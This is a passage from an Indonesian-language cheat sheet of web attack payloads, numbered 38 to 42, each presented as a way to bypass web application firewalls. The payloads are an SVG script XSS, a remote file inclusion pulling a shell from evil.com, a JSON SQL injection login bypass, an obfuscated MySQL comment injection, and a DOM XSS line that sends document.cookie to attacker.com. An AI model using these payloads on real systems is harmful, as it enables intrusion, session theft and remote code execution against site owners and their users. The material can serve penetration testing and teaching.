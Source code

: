 
### **🛡️ 38. HTML Injection via SVG Polyglot**  
```html
<svg><script>alert(1)</script></svg>
```
**📌 Teknik:**  
✅ **SVG Polyglot XSS** = Menggabungkan kode SVG dan JavaScript.  
✅ `<script>` dijalankan dalam konteks SVG.  
✅ **Bypass WAF** karena banyak filter tidak mendeteksi payload dalam SVG.  

---

### **🛡️ 39. Remote File Inclusion (RFI) via PHP**  
```php
?file=http://evil.com/shell.txt
```
**📌 Teknik:**  
✅ **RFI** = Memuat skrip berbahaya dari server eksternal.  
✅ `file=http://evil.com/shell.txt` menyisipkan kode berbahaya ke sistem target.  
✅ **Bypass WAF** dengan menyamarkan payload sebagai parameter file.  

---

### **🛡️ 40. JSON Bypass SQL Injection**  
```json
{"username":"admin' OR '1'='1","password":"any"}
```
**📌 Teknik:**  
✅ **JSON SQLi** = Menyuntikkan SQLi melalui API JSON.  
✅ `' OR '1'='1` mengeksploitasi otentikasi berbasis SQL.  
✅ **Bypass WAF** karena banyak filter tidak menganalisis payload JSON.  

---
```md
---

### **🛡️ 41. Advanced Obfuscated SQL Injection**  
```sql
SELECT /*!12345 1*/ FROM users WHERE username='admin' /*!12345 AND*/ password='password'
```
**📌 Teknik:**  
✅ **Obfuscation SQLi** = Memanfaatkan komentar khusus MySQL (`/*!12345 */`).  
✅ **Bypass WAF** dengan menyembunyikan sintaks SQL dalam komentar yang valid.  

---

### **🛡️ 42. DOM-based XSS via JavaScript Injection**  
```js
document.write('<img src="http://attacker.com/log?cookie='+document.cookie+'">');
```
**📌 Teknik:**  
✅ **DOM-based XSS** = Mengeksploitasi JavaScript langsung di browser korban.  
✅ `document.cookie` mengirimkan data sensitif ke server penyerang.  
✅ **Bypass WAF** dengan eksploitasi manipulasi DOM.  

---